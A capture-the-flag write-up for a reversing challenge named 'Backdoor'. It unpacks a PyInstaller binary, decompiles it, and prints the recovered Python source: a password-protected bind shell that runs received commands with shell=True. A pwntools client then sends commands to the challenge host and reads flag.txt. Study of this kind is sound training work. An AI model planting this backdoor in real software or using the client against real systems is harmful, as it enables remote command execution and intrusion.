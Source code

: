 # Backdoor

## Description

One of our friends has left a backdoor on the extraterrestrials' server. If we manage to take advantage of it, we will be able to control all the doors and lock them outside or open doors to facilites we have no access.

[rev_backdoor.zip](rev_backdoor.zip)

## Solution
 
From `pydata` ELF section and other `Py_*` constants and a little googling it is clear that `bd` is a `Pyinstaller` executable. Pyinstaller has a tool that can extract content of its archives - `pyi-archive_viewer`:

    $> pyi-archive_viewer bd
    ...
    (13756, 528, 732, 1, 's', 'bd'), 
    ...
    ? X bd
    to filename? bd.bin
    ? Q

Then we have a bytocode blob that is still not a `.pyc` file ready to be decompiled with `uncompyle6`. By [a similar challenge](https://cujo.com/first-seclounge-ctf-2020-re-and-misc-challenges/) I added the PYC header:

```python
open("bd.pyc", "wb").write(b"\x42\x0d\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" + open("bd.bin", "rb").read())
```

But still cannot be decompiled due to MAGIC_NUMBER difference between my Python3 version and the `bd.pyc`. I find my MAGIC_NUMBER by:

```python
>>> import importlib.util
>>> importlib.util.MAGIC_NUMBER
b'U\r\r\n'

>>> from binascii import hexlify, unhexlify
>>> hexlify(importlib.util.MAGIC_NUMBER)
b'550d0d0a'
```

and:

![](https://i.imgur.com/LM7eOE8.png)

Then we can decompile by `uncompyle6 bd.pyc`:

```python
# uncompyle6 version 3.7.4                                                                                                             
# Python bytecode 3.8 (3413)                                                                                                           
# Decompiled from: Python 3.8.5 (default, Jan 27 2021, 15:41:15)                                                                       
# [GCC 9.3.0]
# Embedded file name: bd.py
import socket
from hashlib import md5
from subprocess import check_output
sock = socket.socket()
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
sock.bind(('0.0.0.0', 4433))
sock.listen(5)
while True:
    client, addr = sock.accept()
    data = client.recv(32)
    if len(data) != 32:
        client.close()
    elif data.decode() != md5(b's4v3_th3_w0rld').hexdigest():
        client.send(b'Invalid')
        client.close()
    else:
        size = client.recv(1)
        command = client.recv(int.from_bytes(size, 'little'))
        if not command.startswith(b'command:'):
            client.close()
        else:
            command = command.replace(b'command:', b'')
            output = check_output(command, shell=True)
            client.send(output)
            client.close()

```

Then get to the service by:

```python
from pwn import *
import struct
import hashlib


def cm(c):
    cc = b"command:%s" % c
    return struct.pack("B", len(cc)) + cc


def ex(c):
    pwd = hashlib.md5(b's4v3_th3_w0rld').hexdigest().encode("ascii")
    r = remote("138.68.148.24", 30872)
    r.send(pwd)
    r.send(cm(c.encode("ascii")))
    print(r.recvall().decode("ascii"))

```

and:

```python
>>> ex("ls -al")
Opening connection to 138.68.148.24 on port 30872
[+] Opening connection to 138.68.148.24 on port 30872: Done
[+] Receiving all data: Done (1.34KB)
[*] Closed connection to 138.68.148.24 port 30872
total 72
drwxr-xr-x    1 root     root          4096 Apr 20 06:45 .
drwxr-xr-x    1 root     root          4096 Apr 20 06:45 ..
-rwxr-xr-x    1 root     root             0 Apr 20 06:45 .dockerenv
-rwxr-xr-x    1 root     root           793 Apr 16 16:37 bd.py
drwxr-xr-x    2 root     root          4096 Apr 14 10:25 bin
drwxr-xr-x    5 root     root           360 Apr 20 06:45 dev
drwxr-xr-x    1 root     root          4096 Apr 20 06:45 etc
-rw-r--r--    1 root     root            30 Apr 16 16:39 flag.txt
drwxr-xr-x    2 root     root          4096 Apr 14 10:25 home
drwxr-xr-x    1 root     root          4096 Apr 14 10:25 lib
drwxr-xr-x    5 root     root          4096 Apr 14 10:25 media
drwxr-xr-x    2 root     root          4096 Apr 14 10:25 mnt
drwxr-xr-x    2 root     root          4096 Apr 14 10:25 opt
dr-xr-xr-x  335 root     root             0 Apr 20 06:45 proc
drwx------    2 root     root          4096 Apr 14 10:25 root
drwxr-xr-x    2 root     root          4096 Apr 14 10:25 run
drwxr-xr-x    2 root     root          4096 Apr 14 10:25 sbin
drwxr-xr-x    2 root     root          4096 Apr 14 10:25 srv
dr-xr-xr-x   13 root     root             0 Apr 20 06:45 sys
drwxrwxrwt    2 root     root          4096 Apr 14 10:25 tmp
drwxr-xr-x    1 root     root          4096 Apr 16 16:39 usr
drwxr-xr-x    1 root     root          4096 Apr 14 10:25 var

>>> ex("cat flag.txt")
Opening connection to 138.68.148.24 on port 30872



[+] Opening connection to 138.68.148.24 on port 30872: Done
[+] Receiving all data: Done (30B)
[*] Closed connection to 138.68.148.24 port 30872
CHTB{b4ckd00r5_4r3_d4nG3r0u5}


```

